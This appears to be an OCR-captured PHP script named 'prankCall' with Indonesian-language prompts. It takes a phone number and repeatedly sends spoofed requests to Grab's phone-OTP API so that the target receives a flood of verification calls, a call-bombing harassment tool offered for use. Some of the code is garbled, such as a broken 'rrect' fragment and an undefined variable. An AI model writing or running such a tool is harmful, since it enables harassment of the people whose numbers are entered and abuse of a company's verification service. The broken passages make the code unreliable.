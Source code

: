 <?php
function get(){
	return trim(fgets(STDIN));
}
class prankCall{
	public function __construct($no){
		$this->number = $no;
	}
	private function get(){
		return trim(fgets(STDIN));
	}
	private function correct($no){
		$cek = substr($no,0,2);
		if($cek=="08"){
			$no = "62".substr($no,1);
		}
		return $no;
	}
	private function ekse(){rrect($this->number);
		$rand = rand(0123456,9999999);
		$rands = $this->randStr(12);
		$post = "method=CALL&countryCode=id&phoneNumber=$no&templateID=pax_android_production";
		$h[] = "x-request-id: ebf61bc3-8092-4924-bf45-$rands";
		$h[] = "Accept-Language: in-ID;q=1.0, en-us;q=0.9, en;q=0.8";
		$h[] = "User-Agent: Grab/5.20.0 (Android 6.0.1; Build $rand)";
		$h[] = "Content-Type: application/x-www-form-urlencoded";
		$h[] = "Content-Length: ".strlen($post);
		$h[] = "Host: api.grab.com";
		$h[] = "Connection: close";
		$ch = curl_init();
		curl_setopt($ch, CURLOPT_URL, "https://api.grab.com/grabid/v1/phone/otp");
		curl_setopt($ch, CURLOPT_POST, 1);
		curl_setopt($ch, CURLOPT_POSTFIELDS, $post);
		curl_setopt($ch, CURLOPT_HTTPHEADER, $h);
		curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
		$x = curl_exec($ch); curl_close($ch);
		$ekse = json_decode($x,true);
		if(empty($ekse['challengeID'])){
			echo "Gagal\n";
		}else{
			echo "Sukses\n";
		}
	}
	private function loop($many,$sleep=null){
		$a=0;
		$no = $this->correct($this->number);
		while($a<$many){
			$rand = rand(0123456,9999999);
			$rands = $this->randStr(12);
			$post = "method=CALL&countryCode=id&phoneNumber=$no&templateID=pax_android_production";
			$h[] = "x-request-id: ebf61bc3-8092-4924-bf45-$rands";
			$h[] = "Accept-Language: in-ID;q=1.0, en-us;q=0.9, en;q=0.8";
			$h[] = "User-Agent: Grab/5.20.0 (Android 6.0.1; Build $rand)";
			$h[] = "Content-Type: application/x-www-form-urlencoded";
			$h[] = "Content-Length: ".strlen($post);
			$h[] = "Host: api.grab.com";
			$h[] = "Connection: close";
			$ch = curl_init();
			curl_setopt($ch, CURLOPT_URL, "https://api.grab.com/grabid/v1/phone/otp");
			curl_setopt($ch, CURLOPT_POST, 1);
			curl_setopt($ch, CURLOPT_POSTFIELDS, $post);
			curl_setopt($ch, CURLOPT_HTTPHEADER, $h);
			curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
			$x = curl_exec($ch); curl_close($ch);
			$ekse = json_decode($x,true);
			if(empty($ekse['challengeID'])){
				continue;
			}else{
				$nn = $a+1;
				echo "[$nn] Sukses\r";
				$a++;
			}
			if($sleep!=null) sleep($sleep);
			if($a>=$many) echo "\nCompleted!\n";
		}
	}
	private function randStr($l){
		$data = "abcdefghijklmnopqrstuvwxyz1234567890";
		$word = "";
		for($a=0;$a<$l;$a++){
			$word .= $data{rand(0,strlen($data)-1)};
		}
		return $word;
	}
	public function run(){
		while(true){
			echo "?Loop(y/n)		";
			$loop = $this->get();
			if($loop=="y" OR $loop=="n"){
				break;
			}else{
				echo "Jika ya jawab y jika tidak jawab n\n";
				continue;
			}
		}
		if($loop=="y"){
			echo "?Many			";
			$many = $this->get();
			$this->loop($many);
		}else{
			$this->ekse();
		}
	}
}
echo "#################################\n# insta : @s2dbl  #\n#################################\n";
echo "?Number			";
$no = get();
$n = new prankCall($no);
$n->run();
?>
